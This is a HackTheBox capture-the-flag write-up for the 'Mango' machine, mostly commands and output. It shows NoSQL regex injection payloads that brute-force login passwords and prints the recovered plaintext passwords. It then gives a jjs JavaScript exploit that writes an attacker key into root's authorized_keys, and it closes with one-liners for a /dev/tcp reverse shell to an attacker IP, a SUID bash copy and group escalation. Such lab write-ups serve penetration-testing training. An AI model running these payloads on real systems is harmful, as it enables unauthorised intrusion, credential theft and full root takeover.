




# Mango

## Machine Info


## Recon

- nmap

```console
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_http-server-header: Apache/2.4.29 (Ubuntu)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Mango | Search Base
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (96%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 5.0 (94%), Linux 3.16 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 5.1 (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Linux 3.18 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- domain names:
  - mango.htb
  - staging-order.mango.htb

- urls
  - `http://staging-order.mango.htb/`
  - `https://mango.htb/`

## Foothold

### Mongodb Injection


- **POC**: NoSQL Injection, [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#exploits](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL Injection#exploits)
  - 302: NoSQL injection
  - 200: after injection of login page, visit /home.php page






- **Brute force the length of password(username) methodology**: `username=admin&password[$regex]=.{1}&login=login`
  - => the length of admin's password: `12`



- **Brute force password(username) methodology**: `username=admin&password[$regex]=^x.*&login=login`
  - the first character of admin's password: `t`

```console
$ curl -i -s -k -X $'POST' \
    -H $'Host: staging-order.mango.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 48' -H $'Origin: http://staging-order.mango.htb' -H $'Connection: close' -H $'Referer: http://staging-order.mango.htb/' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=a755nc4re30gauppba7gm5ahl6' \
    --data-binary $'username=admin&password[$regex]=^t.*&login=login' \
    $'http://staging-order.mango.htb/'
```



- Write python code to brute force username and password (convert curl command with python code: [Convert curl commands to code (curlconverter.com)](https://curlconverter.com/))
- **EXP**: [zhsh9/THB-POC-MongoDB-Injection: HackTheBox Mango: NoSQL Injection Exploit to Brute Force Username & Password. (github.com)](https://github.com/zhsh9/THB-POC-MongoDB-Injection)

```console
[!] Found the username: admin
[!] Found the password: t9KcS3>!0B#2
[!] Found the username: mango
[!] Found the password: h3mXK8RhU~f{]f5H
```

- two creds: ssh as mango

```console
$ ssh mango@$IP
The authenticity of host '10.10.10.162 (10.10.10.162)' can't be established.
ED25519 key fingerprint is SHA256:tzYGTA/kNsB/kThvsmrv2uxaUS/2zS/grRQkrbN4+RE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.162' (ED25519) to the list of known hosts.
mango@10.10.10.162's password:
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 18 13:50:40 UTC 2024

  System load:  0.01              Processes:           102
  Usage of /:   57.9% of 5.29GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

118 packages can be updated.
18 updates are security updates.


Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
mango@mango:~$
```

## Privilege Escalation

### admin login

```console
$ su admim
t9KcS3>!0B#2
```

- why cannot ssh as admin:

```console
$ cat /etc/ssh/sshd_config | grep -B2 -A2 AllowUsers
AllowUsers mango root
```

### SUID usage

- sudo -l -> nothing

```console
admin@mango:/home/admin$ sudo -l
[sudo] password for admin:
Sorry, user admin may not run sudo on mango.

mango@mango:/home/admin$ sudo -l
[sudo] password for mango:
Sorry, user mango may not run sudo on mango.
```

- SUID file -> **jjs**
  - `jjs` is a tool that is included with the JDK (Java Development Kit) for executing JavaScript code on the command line. It is an acronym for "Java JavaScript", and it refers to the command-line utility that invokes the Nashorn engine - a JavaScript runtime which allows for the execution of JavaScript code natively on the Java Virtual Machine (JVM).
  - Nashorn was introduced in Java 8 as a replacement for the Rhino scripting engine, which was the previous JavaScript engine bundled with Java.
  - Within the `jjs` tool, you can load Java classes and use Java APIs, which makes it a powerful scripting environment for Java.
  - Basic usage example: `jjs`, `jjs script.js`, `jjs script.js -- arg1 arg2 arg3`

```console
admin@mango:/opt$ find / -perm -u=s -type f 2>/dev/null -ls
      676     24 -rwsr-xr-x   1 root     root               22520 Mar 27  2019 /usr/bin/pkexec
     6184     44 -rwsr-xr--   1 root     messagebus         42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    12733    100 -rwsr-xr-x   1 root     root              100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
      836     16 -rwsr-xr-x   1 root     root               14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     1292     12 -rwsr-xr-x   1 root     root               10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    11829     12 -rwsr-sr--   1 root     admin              10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    11755    428 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     3610    100 -rwsr-sr-x   1 root     root              101240 Mar 15  2019 /usr/lib/snapd/snap-confine
```

- **EXP**: use js exp code to write local host's public rsa key into `/root/.ssh/authorized_keys`

```javascript
var Files = Java.type('java.nio.file.Files');
var Paths = Java.type('java.nio.file.Paths');
var StandardCharsets = Java.type('java.nio.charset.StandardCharsets');
var StandardOpenOption = Java.type('java.nio.file.StandardOpenOption');

var path = Paths.get("/root/.ssh/authorized_keys");
var content = new java.lang.String("ssh-rsa AAAAxxxxxx....xxxxxx= zhsh@kali");

try {
    Files.write(path, content.getBytes(StandardCharsets.UTF_8), StandardOpenOption.CREATE, StandardOpenOption.TRUNCATE_EXISTING);
    print("[+] Content written to /root/.ssh/authorized_keys successfully.");
} catch (e) {
    print("[!] An error occurred: " + e.message);
}
```

```console
admin@mango:/home/admin$ cat exp | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var Files = Java.type('java.nio.file.Files');
jjs> var Paths = Java.type('java.nio.file.Paths');
jjs> var StandardCharsets = Java.type('java.nio.charset.StandardCharsets');
jjs> var StandardOpenOption = Java.type('java.nio.file.StandardOpenOption');
jjs>
jjs> var path = Paths.get("/root/.ssh/authorized_keys");
jjs> var content = new java.lang.String("ssh-rsa AAAAxxx...xxx== zhsh@kali");
jjs>
jjs> try {
...>     Files.write(path, content.getBytes(StandardCharsets.UTF_8), StandardOpenOption.CREATE, StandardOpenOption.TRUNCATE_EXISTING);
...>     print("[+] Content written to /root/.ssh/authorized_keys successfully.");
...> } catch (e) {
...>     print("[!] An error occurred: " + e.message);
...> }
[+] Content written to /root/.ssh/authorized_keys successfully.
```

```console
$ ssh -i ~/.ssh/id_rsa root@$IP
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
...
root@mango:~# id
uid=0(root) gid=0(root) groups=0(root)
root@mango:~# uname -a
Linux mango 4.15.0-64-generic #73-Ubuntu SMP Thu Sep 12 13:16:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
root@mango:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:b9:04:dc brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.162/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```

### Other SUID Payloads

1. java one-line reverse shell: [Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet); `-p` is important, to allow bash to execute while setting admin as effective user and root as real user

```console
echo "Java.type('java.lang.Runtime').getRuntime().exec(['/bin/bash','-p','-c','exec 5<>/dev/tcp/10.10.xx.xx/xxxx;cat <&5 | while read line; do \$line 2>&5 >&5; done']).waitFor()" | jjs
```

2. copy bash and set it as suid

```console
echo "Java.type('java.lang.Runtime').getRuntime().exec('cp /bin/bash /tmp/mybash').waitFor()" | jjs
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod +xs /tmp/mybash').waitFor()" | jjs
/tmp/mybash -p
```

3. add admin into sudo (or root) group

```console
echo "Java.type('java.lang.Runtime').getRuntime().exec('usermod -aG sudo admin').waitFor()" | jjs
echo "Java.type('java.lang.Runtime').getRuntime().exec('usermod -aG root admin').waitFor()" | jjs
```

## Exploit Chain

port scan -> http site & https site -> https nothing -> http login page -> NoSQL injection -> Mongodb -> bruteforce username & password -> ssh login as mango -> su admin -> enum SUID files -> jjs -> write pub key into authorized_keys -> ssh login as root
